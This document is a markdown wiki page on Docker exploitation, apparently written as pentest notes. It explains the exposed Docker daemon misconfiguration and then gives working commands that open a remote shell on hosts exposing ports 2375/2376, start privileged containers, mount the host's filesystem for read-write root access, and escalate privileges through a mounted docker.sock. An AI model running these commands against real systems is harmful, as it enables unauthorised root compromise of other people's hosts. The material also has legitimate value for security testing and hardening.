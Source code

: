 ```yaml
---
title: Docker Exploitation
description: Tactics, techniques, and procedures (TTPs) observed and tested in the wild on the exploitation of the Docker application
published: false
date: 2021-01-016T19:14:00.643Z
tags:
editor: markdown
dateCreated: 2021-01-16T16:51:39.351Z
---
```


# Docker Exploitation

Docker Client Documentation: https://docs.docker.com

## Intent

This page will discuss different tactics, techniques, and procedures (TTPs) observed and tested in the wild on the exploitation of the Docker application  

## Background

A virtual machine: This is a machine within a machine. VirtualBox, VMware, HyperV and other platforms are used to make a machine within a machine. Hard drives, operating systems, ram allocations and all.

A container: This shares the kernel of the operating system to run basically alongside of the host processes. i.e., ‘Docker run a webserver but don’t allocate 20 gbs of space and just pipe the logs from the server into my log directory in my home directory’.

### Docker Socket Vulnerability

When you’re installing Docker you’re actually installing a daemon socket onto your system that talks to the kernel over a tcp:// call. By default, this is setup with either ports 2375 (unencrypted) or 2376 (tls encrypted traffic). This is otherwise known as the docker socket. This socket handles all the API requests that a Docker client makes to the machine. For example, it will send to your internal socket the command `docker ps -a` and show you all of the running containers and subsequent information. At this point this is only going to be accessible to the local machine.

So, let’s say a web developer Bob decides that he want’s to run his applications in a cloud environment and have everything running on docker. Well, you could just ssh into the box install docker and install the apps to run in their own containers. But to streamline product releases he decides to expose the docker daemon to the internet so he can run commands on it from his home office. (docker -H tcp://<some IP>:2375 …)  This is where the vulnerability is…Tenable calls it ‘Docker Daemon Publicly Accessible’ (or something like that). I call it opening a shell up to the internet for anyone to connect to as root…Let’s break it down.

Figure 1:
Running a container on a local machine:
`docker run -it ubuntu:latest`
Running a container with elevated privileges on your local machine:
`docker run -it –privileged ubuntu:latest`
Running a container on someone else’s machine with elevated privileges:
`docker -H <someone else’s IP>:<port> run -it –privileged ubuntu:latest`

There it is…that is the vulnerability. A gross misconfiguration of the Docker daemon that exposes it to the internet (or intranet of a company) if put into a cloud environment or allowed egress. Also with the  `--privileged` flag you’re given root access to the container which can be used in a plethora of privilege escalation attacks.

## Exposed Docker Socket exploitation


### Getting a shell

```
docker run -H tcp://<some_ip>:<port> -it --entrypoint="/bin/sh" alpine
```
Simply creates a container onto a host exposing the docker daemon over TCP.

### Getting a privileged shell


```
docker run -H tcp://<some_ip>:<port> -it --privileged --entrypoint="/bin/sh" alpine
```
Add `--privileged` tag to the above script to allow for all capabilities to be enabled.

A list of which can be found here: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities

### Mount Host File System To Containers

*** !!! WARNING !!! If you do not know what you are doing you can cause damage to the host machine. Use Caution! ***  


First run a privileged container running alpine.

**Remote:**
```
docker run -H tcp://<some_ip>:<port> -it --privileged --entrypoint="/bin/sh" alpine
```

**Local:**
```
docker run -it --privileged --entrypoint="/bin/sh" alpine
```

Next you'll be greeted with the shell that's running in alpine that is running as the `root (#)` user.

**Create a folder to mount host file system**
```
# mkdir /media/host-mnt
```

**Check for drive names**
```
# df -a
```

*Examples: /dev/sda1, /dev/nvme0, /dev/hdd0*

**Mount the Host FS**

```
# mount -a /dev/<drive> /media/host-mnt && cd /media/host-mnt && ls -lash
```


This should (pardoning any errors with mount or resources being busy) give you read write access to the host's filesystem.

### Docker container within Docker running Docker

Docker Hub Src: https://hub.docker.com/_/docker

Recently Docker released an image on dockerhub that is Docker running itself.

(As weird as that sounds...)

This leads to an interesting privesc vulnerability.

Say you're on a box but don't have access to root and see that you can create unpriviledged containers. (Research this...)

You can create your own docker daemon install that runs on the same socket as the host.

```
$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock docker:latest
```

This opens up a docker container that has docker installed that can create images using the same docker daemon (or socket if exploiting remote).

Once you create the container you should be running as root and can create privileged containers from within an **unpriviledged** container. (idk why people think this is okay.)

```
# docker run -it --privileged alpine
```

Now you have a root shell running in a container that has all of the capabilities enabled as referenced here: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
